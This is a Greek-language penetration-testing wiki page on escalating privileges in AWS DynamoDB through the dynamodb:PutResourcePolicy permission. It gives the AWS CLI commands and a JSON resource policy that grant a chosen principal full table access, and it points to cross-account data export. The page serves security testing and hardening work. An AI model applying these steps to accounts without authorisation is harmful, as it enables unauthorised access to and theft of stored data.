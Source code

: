 # AWS - DynamoDB Privesc

{{#include ../../../banners/hacktricks-training.md}}

## dynamodb

Για περισσότερες πληροφορίες σχετικά με το dynamodb, ελέγξτε:

{{#ref}}
../aws-services/aws-dynamodb-enum.md
{{#endref}}

### `dynamodb:PutResourcePolicy`, και προαιρετικά `dynamodb:GetResourcePolicy`

Από τον Μάρτιο του 2024, η AWS προσφέρει *πολιτικές βασισμένες σε πόρους* για το DynamoDB ([AWS News](https://aws.amazon.com/about-aws/whats-new/2024/03/amazon-dynamodb-resource-based-policies/)).

Έτσι, αν έχετε το `dynamodb:PutResourcePolicy` για έναν πίνακα, μπορείτε απλά να παραχωρήσετε στον εαυτό σας ή σε οποιονδήποτε άλλο κύριο πλήρη πρόσβαση στον πίνακα.

Η παραχώρηση του `dynamodb:PutResourcePolicy` σε έναν τυχαίο κύριο συμβαίνει συχνά κατά λάθος, αν οι διαχειριστές νομίζουν ότι η παραχώρηση του `dynamodb:Put*` θα επιτρέψει μόνο στον κύριο να προσθέσει στοιχεία στη βάση δεδομένων - ή αν παραχώρησαν αυτό το σύνολο δικαιωμάτων πριν από τον Μάρτιο του 2024...

Ιδανικά, έχετε επίσης το `dynamodb:GetResourcePolicy`, ώστε να μην αντικαταστήσετε άλλες πιθανώς ζωτικές άδειες, αλλά μόνο να εισάγετε τις πρόσθετες άδειες που χρειάζεστε:
```bash
# get the current resource based policy (if it exists) and save it to a file
aws dynamodb get-resource-policy \
--resource-arn <table_arn> \
--query 'Policy' \
--output text > policy.json
```
Αν δεν μπορείτε να ανακτήσετε την τρέχουσα πολιτική, απλώς χρησιμοποιήστε αυτήν που παρέχει πλήρη πρόσβαση στον πίνακα στον κύριο σας:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "FullAccessToDynamoDBTable",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::<ACCOUNT_ID>:<USER_OR_ROLE>/<USERNAME_OR_ROLENAME>"
},
"Action": [
"dynamodb:*"
],
"Resource": [
"arn:aws:dynamodb:<REGION>:<AWS_ACCOUNT_ID>:table/<TABLENAME>"
]
}
]
}
```
Αν χρειαστεί να το προσαρμόσετε, εδώ είναι μια λίστα με όλες τις δυνατές ενέργειες DynamoDB: [AWS Documentation](https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API_Operations.html). Και εδώ είναι μια λίστα με όλες τις ενέργειες που μπορούν να επιτραπούν μέσω μιας πολιτικής βασισμένης σε πόρους *ΚΑΙ ποιες από αυτές μπορούν να χρησιμοποιηθούν διασυνοριακά (σκεφτείτε την εξαγωγή δεδομένων!)*: [AWS Documentation](https://docs.aws.amazon.com/amazondynamodb/latest/developerguide/rbac-iam-actions.html)

Τώρα, με το έγγραφο πολιτικής `policy.json` έτοιμο, τοποθετήστε την πολιτική πόρου:
```bash
# put the new policy using the prepared policy file
# dynamodb does weirdly not allow a direct file upload
aws dynamodb put-resource-policy \
--resource-arn <table_arn> \
--policy "$(cat policy.json)"
```
Τώρα, θα πρέπει να έχετε τις άδειες που χρειάζεστε.

### Post Exploitation

Όσο γνωρίζω, **δεν υπάρχει άλλος άμεσος τρόπος για να κλιμακώσετε τις άδειες στο AWS απλά με το να έχετε κάποιες άδειες `dynamodb`**. Μπορείτε να **διαβάσετε ευαίσθητες** πληροφορίες από τους πίνακες (οι οποίες θα μπορούσαν να περιέχουν διαπιστευτήρια AWS) και **να γράψετε πληροφορίες στους πίνακες** (οι οποίες θα μπορούσαν να προκαλέσουν άλλες ευπάθειες, όπως οι επιθέσεις κώδικα lambda...) αλλά όλες αυτές οι επιλογές έχουν ήδη ληφθεί υπόψη στη **σελίδα Post Exploitation του DynamoDB**:

{{#ref}}
../aws-post-exploitation/aws-dynamodb-post-exploitation.md
{{#endref}}

### TODO: Διαβάστε δεδομένα εκμεταλλευόμενοι τα data Streams

{{#include ../../../banners/hacktricks-training.md}}

